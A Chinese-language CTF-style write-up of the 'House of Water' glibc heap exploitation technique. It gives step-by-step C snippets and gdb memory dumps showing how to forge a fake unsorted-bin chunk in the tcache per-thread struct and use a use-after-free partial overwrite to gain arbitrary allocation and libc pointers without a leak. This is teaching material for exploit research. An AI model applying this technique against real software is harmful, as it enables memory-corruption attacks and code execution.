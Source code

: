 ~~神秘妙妙大🏠~~

## 原理

### TL;DR

总的来说，这个打法的应用场景是在：
- fastbin / tcachebin 有指针加密
- 程序没有 show 来 leak libc or heap_base
- 程序至少可以 uaf

由于没有 show，所以得打 `stdout/stderr` 这些，所以得 fastbin attack 或者 tcache posioning 来实现任意地址分配，但是这些打法无一例外需要泄漏 heap_base（高版本存在指针加密），当然如果低版本没有指针加密的话，可以通过 uaf 打堆块重叠之类的做到任意地址分配。

回到这个手法，核心思想是通过伪造一个在 tcache_pthread_struct 上的 fake_unsortbin 来实现任意地址分配，这个过程中最多只需要 1/16 的爆破，不需要其他任何的地址泄漏等等。

### 具体手法

#### step1

分配 0x3d8 和 0x3e8 大小的 chunk，以将其各自的 t-cache 计数设置为 1，此时 tcache_pthread_struct + 0x78 位置会被写入一个 0x10001，这是因为 tps 的 idx 字段是 int 的，效果如下：

```
tcache is pointing to: 0x555555559010 for thread 1
{
counts = {0 <repeats 60 times>, 1, 1, 0, 0},
entries = {0x0 <repeats 60 times>, 0x5555555592a0, 0x555555559680, 0x0, 0x0}
}

0x555555559000: 0x0000000000000000      0x0000000000000291
0x555555559010: 0x0000000000000000      0x0000000000000000
0x555555559020: 0x0000000000000000      0x0000000000000000
0x555555559030: 0x0000000000000000      0x0000000000000000
0x555555559040: 0x0000000000000000      0x0000000000000000
0x555555559050: 0x0000000000000000      0x0000000000000000
0x555555559060: 0x0000000000000000      0x0000000000000000
0x555555559070: 0x0000000000000000      0x0000000000000000
0x555555559080: 0x0000000000000000      0x0000000000010001  <- fake_chunk
```

然后我们分配 7 个 0x88 的 chunk 用于后面填充 tcachebin。

#### step2

分配 3 个 ub，中间用 gap 隔开。

```c
void *unsorted_start = malloc(0x88);
_ = malloc(0x18); // Guard chunk

void *unsorted_middle = malloc(0x88);
_ = malloc(0x18); // Guard chunk

void *unsorted_end = malloc(0x88);
_ = malloc(0x18); // Guard chunk
```


#### step3

接下来，我们要通过一些办法让堆管理器认为 fake_chunk 是 free 的，这需要我们把 `fake_chunk + 0x10000` 处的 `prev_size` 和 `size` 字段的 `pre_inuse` 位设置好。

```c
_ = malloc(0xf000);		  // Padding
void *end_of_fake = malloc(0x18); // Metadata chunk
*(long *)end_of_fake = 0x10000;
*(long *)(end_of_fake+0x8) = 0x20;
```

大概这样设置一下。

#### step4

把 step1 里申请的 0x90 的 7 个 chunk 释放掉，填满对应的 tcache idx。

#### step5

接下来到了最关键的部分，为了将 fakechunk 伪造成一个合法的 unsortbin，需要伪造它的 fd bk 字段，可以注意到我们申请出来 0x10001 的相对偏移是 `0x88`，而偏移为 `0x90` 处（对应 fd）正好是大小为 0x20 的 tcachebin chunk 的 record，`0x98` 处（对应 bk）正好是大小为 0x30 的 tcachebin chunk 的 record。

然后还要注意一个点：tcachebin 记录的是返回给用户的 chunkptr，而其他 bins(unsortbin) 记录的就是申请出来的 chunk 头。

所以我们可以往刚刚申请的 unsortbin chunk 头前伪造一个合法的 size 字段，做到释放与 unsorted_start 和 unsorte_end 块的头完全重叠的块。

```c
*(long*)(unsorted_start - 0x18) = 0x31;
free(unsorted_start - 0x10); // Create a fake fd pointer for the fake chunk
*(long*)(unsorted_start - 0x8) = 0x91;

*(long*)(unsorted_end - 0x18) = 0x21; // Write 0x21 above unsorted_end
free(unsorted_end - 0x10); // Create a fake bk for the fake chunk
*(long*)(unsorted_end - 0x8) = 0x91;	// recover the original header
```

`unsorted_start` 大概如下，`unsorted_end` 类似。
```
0x555555559e40: 0x0000000000000000      0x0000000000000031
0x555555559e50: 0x0000000555555559      0x0000000000000091
0x555555559e60: 0x0000000000000000      0x0000000000000000
```

最终效果如下：

```
0x555555559080: 0x0000000000000000      0x0000000000010001
0x555555559090: 0x0000555555559fb0      0x0000555555559e50
0x5555555590a0: 0x0000000000000000      0x0000000000000000
```

这是一个比较合法的 unsortbin chunk，接下来只要想办法把他挂到 unsortbin 链子里就行。

#### step6

释放 3 个 unsortbin chunk，效果如下：

```
unsortedbin
all: 0x555555559e50 —▸ 0x555555559f00 —▸ 0x555555559fb0 —▸ 0x7ffff7e03b20 (main_arena+96) ◂— 0x555555559e50
```

现在只需要把这个链子里的 `0x555555559f00` 改成 `0x555555559080` 就可以。

#### step7

这里就需要用到 uaf，利用题目漏洞 edit / 部分写 `0x555555559f00` 为 `0x555555559080`，这里只需要一个 1/16 的爆破。

具体是修改 `unsorted_start` 的 `fd` 和 `unsorted_end` 的 `bk`。

```
unsortedbin
all: 0x555555559e50 —▸ 0x555555559080 —▸ 0x555555559fb0 —▸ 0x7ffff7e03b20 (main_arena+96) ◂— 0x555555559e50
```

#### step8

接下来任意申请一个小于 0x10000 的 chunk 就可以完成攻击了。


### 效果

相当于可以控制部分的 tcache_pthread_plus 了，这里就可以任意地址申请了。

同时 tps 的 0x20 和 0x30 的地方会写入 main_arena 的 libc 值，这里可以任意申请 libc 了。


- 参考模型：https://4xura.com/pwn/house-of-water/
